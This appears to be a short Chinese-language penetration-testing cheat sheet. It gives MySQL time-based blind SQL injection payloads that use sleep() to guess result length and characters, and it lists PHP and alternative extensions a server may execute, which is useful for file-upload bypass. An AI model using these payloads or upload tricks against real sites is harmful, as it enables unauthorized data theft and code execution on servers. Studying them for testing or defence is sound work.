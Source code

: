 ### 延时盲注

​	判断结果长度

```mysql
'and if(length([语句]) = 8,sleep(2),1) -- +
```

​	判断结果的第1位是否为 's'

```mysql
'and if(substr([语句],1,1) = 's',sleep(2),1) -- +
```







## 文件上传PHP解析

默认 PHP 解析后缀：

```
.php, .php5, .php7, .phtml
```

可配置文件解析的后缀（需手动调整服务器）：

```
.html, .htm, .inc, .phar, .php3, .php4, .module, .cgi
```

---

### **默认 PHP 文件后缀**

- **`.php`**（标准 PHP 文件）
- **`.php5`**（旧版 PHP 5 常用）
- **`.php7`**（某些 PHP 7+ 专用）
- **`.phtml`**（PHP + HTML 嵌入式语法）

---

### **可被服务器配置解析为 PHP 的文件后缀**

如果服务器被特殊配置，以下后缀文件可能也被当做 PHP 解析：

- **`.html`**（部分服务器允许内嵌 PHP）
- **`.htm`**（同 `.html`）
- **`.inc`**（旧式 PHP 包含文件）⚠️ **危险！**（易被暴露源码）
- **`.phar`**（PHP 归档文件，可执行代码）
- **`.phps`**（旧式 PHP 源代码显示文件）
- **`.php3`**（PHP 3.x 遗留扩展名）
- **`.php4`**（PHP 4.x 遗留扩展名）
- **`.php6`**（PHP 6 实验版后缀，未正式发布）
- **`.pwml`**（PHP Web Markup Language，少见）
- **`.module`**（部分 CMS 系统如 Drupal 用于 PHP）
- **`.cgi`**（如果配置成运行 PHP-CGI）⚠️ **需检查服务器**
- **`.fcgi`**（FastCGI PHP）⚠️ **需检查服务器**
